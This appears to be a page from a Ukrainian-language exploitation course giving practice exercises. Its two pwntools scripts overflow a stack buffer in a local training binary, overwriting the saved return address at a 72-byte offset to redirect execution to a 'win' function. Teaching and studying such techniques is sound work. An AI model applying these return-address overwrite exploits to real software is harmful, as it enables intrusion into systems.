 ## 🎓 Практичні завдання

### Завдання 1: Перевірка різних розмірів

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF('../build/stage05_demo_with_hint', checksec=False)
win = elf.symbols['win']

# Спробуємо різні розміри
for size in [10, 30, 50, 72, 80, 100]:
    io = process('../build/stage05_demo_with_hint')

    if size < 80:
        payload = b'A' * size
    else:
        payload = b'A' * 72 + p64(win) + b'B' * (size - 80)

    io.send(payload)
    output = io.recvall(timeout=1).decode()

    log.info(f"Розмір {size}: {output.strip()}")
    io.close()
```

### Завдання 2: Візуалізація payload

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF('../build/stage05_demo_with_hint', checksec=False)
win_addr = elf.symbols['win']

OFFSET = 72

# Створюємо payload з різними маркерами
padding = b'A' * 64 + b'B' * 8  # A - buf, B - saved RBP
address = p64(win_addr)

payload = padding + address

# Виводимо візуалізацію
print("Payload structure:")
print(f"  [0-63]:   {payload[0:64].hex()}  (buf - 'A' * 64)")
print(f"  [64-71]:  {payload[64:72].hex()}  (saved RBP - 'B' * 8)")
print(f"  [72-79]:  {payload[72:80].hex()}  (saved RIP - win addr)")
print(f"\nTotal: {len(payload)} bytes")

# Відправляємо
io = process('../build/stage05_demo_with_hint')
io.send(payload)
print(f"\nResult: {io.recvall(timeout=1).decode()}")
io.close()
```
